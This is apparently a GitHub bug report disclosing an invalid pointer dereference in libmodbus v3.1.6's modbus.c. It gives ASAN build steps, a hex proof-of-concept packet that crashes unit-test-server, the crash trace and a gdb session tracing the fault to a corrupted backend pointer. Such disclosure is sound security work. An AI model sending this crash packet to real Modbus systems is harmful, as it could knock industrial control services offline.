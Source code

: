 ## libmodbus version

  v3.1.6

## OS and/or distribution

  Ubuntu22

## Environment

  ...

## Description

  An Invalid Pointer Dereference vulnerability exists in modbus.c in libmodbus v3.1.6, which can be triggered by sending a specific packet to unit-test-server. The vulnerability appears to be caused by the backend_type pointer not being properly initialized.

## Actual behavior if applicable

  =================================================================
==9000==ERROR: AddressSanitizer: SEGV on unknown address 0x605ffffffe96 (pc 0x59037142649c bp 0x7ffeba556150 sp 0x7ffeba555f30 T0)

## Expected behavior or suggestion

  no crash

## Steps to reproduce the behavior (commands or source code)

   Compile the program with ASAN

~~~
  ./autogen.sh
  ./configure --enable-static CC="clang -fsanitize=address  -O1 -g" CXX="clang -fsanitize=address  -O1 -g"
   make -j8
   clang -g -fsanitize=address -O1  unit-test-server.c -o unit-test-server -I ../src/ ../src/.libs/libmodbus.a
~~~

  run unit-test-server
 `./unit-test-server`

  send POC to unit-test-server

  POC:

  ~~~
00000000000CFF1701600002006B0001021234
  ~~~

  Then, you can see:

~~~
AddressSanitizer:DEADLYSIGNAL

==9000==ERROR: AddressSanitizer: SEGV on unknown address 0x605ffffffe96 (pc 0x59037142649c bp 0x7ffeba556150 sp 0x7ffeba555f30 T0)
==9000==The signal is caused by a WRITE memory access.
    #0 0x59037142649c  (/home/zyl/libmodbus/tests/unit-test-server+0xf49c)
    #1 0x59037141d389  (/home/zyl/libmodbus/tests/unit-test-server+0x6389)
    #2 0x797709629d8f  (/lib/x86_64-linux-gnu/libc.so.6+0x29d8f)
    #3 0x797709629e3f  (/lib/x86_64-linux-gnu/libc.so.6+0x29e3f)
    #4 0x59037141e4e4  (/home/zyl/libmodbus/tests/unit-test-server+0x74e4)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (/home/zyl/libmodbus/tests/unit-test-server+0xf49c) 
==9000==ABORTING
Aborted (core dumped)
~~~

## libmodbus output with debug mode enabled

  The cause and location of the vulnerability can be further determined by using gdb

1. Install the preeny library:

```
sudo apt-get install libini_config

sudo apt-get install libseccomp-dev -y

git clone https://github.com/zardus/preeny

cd preeny

make
```

2. Compile libmodbus with -g -O0 and start unit-test-server.

```
 ./autogen.sh

 ./configure --enable-static CC="gcc -g -O0" CXX="g++ -g -O0"

  make -j8

  cd tests

  gcc -g -O0 unit-test-server.c -o unit-test-server -I ../src/ ../src/.libs/libmodbus.a
  
  LD_PRELOAD=/home/XXX/preeny/src/desock.so gdb ./unit-test-server
```

**The last line needs to be replaced with the path to desock.so in your own installation of the preeny library**

~~~
run < ./POC
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /unit-test-server < /POC
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7bff640 (LWP 8757)]
[New Thread 0x7ffff73fe640 (LWP 8758)]
[Thread 0x7ffff7bff640 (LWP 8757) exited]
The client connection from 0.0.0.0 is accepted
Waiting for an indication...
<00><00><00><00><00><0C><FF><17><01><60><00><02><00><6B><00><01><02><12><34>

Thread 1 "unit-test-serve" hit Breakpoint 3, modbus_reply (ctx=ctx@entry=0x5555555782a0, req=req@entry=0x555555578320 "", req_length=<optimized out>, mb_mapping=mb_mapping@entry=0x555555578430) at modbus.c:1001
1001	    return (ctx->backend->backend_type == _MODBUS_BACKEND_TYPE_RTU &&
~~~

  gdb tells us the problem is with `ctx->backend->backend_type == _MODBUS_BACKEND_TYPE_RTU in modbus.c`. Looking at the relevant variables in turn, we can see that it seems to be caused by the fact that the backend_type pointer is not properly initialized.

~~~
(gdb) p ctx
$3 = (modbus_t *) 0x5555555782a0
(gdb) p ctx->backend
$4 = (const modbus_backend_t *) 0x1234555555576b80
(gdb) p ctx->backend->backend_type
Cannot access memory at address 0x1234555555576b80
(gdb) p ctx->backend->backend_type 
Cannot access memory at address 0x1234555555576b80
(gdb) p *ctx->backend->backend_type 
Cannot access memory at address 0x1234555555576b80
~~~



